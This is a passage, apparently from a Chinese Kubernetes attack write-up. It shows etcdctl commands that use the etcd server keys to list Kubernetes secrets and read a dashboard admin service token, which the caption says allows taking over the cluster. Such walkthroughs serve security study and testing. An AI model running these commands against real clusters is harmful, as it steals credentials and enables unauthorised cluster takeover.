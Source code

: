 查看 K8s Secret

```plain
./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379/ get / --prefix --keys-only | grep /secrets/
```

[![](assets/1701826061-e27f949c8b7dfb2f2c88f174f38d5751.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170530-a5902216-7315-1.png)  
读取服务 Token

```plain
./etcdctl --key=/etc/kubernetes/pki/etcd/server.key --cert=/etc/kubernetes/pki/etcd/server.crt --cacert=/etc/kubernetes/pki/etcd/ca.crt --endpoints https://127.0.0.1:2379/ get /registry/secrets/kubernetes-dashboard/admin-myuser-token-jcj9d
```

[![](assets/1701826061-38c85a02fc0d13fac67c16f8963d49fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231025170551-b215a506-7315-1.png)  
Token 接管集群
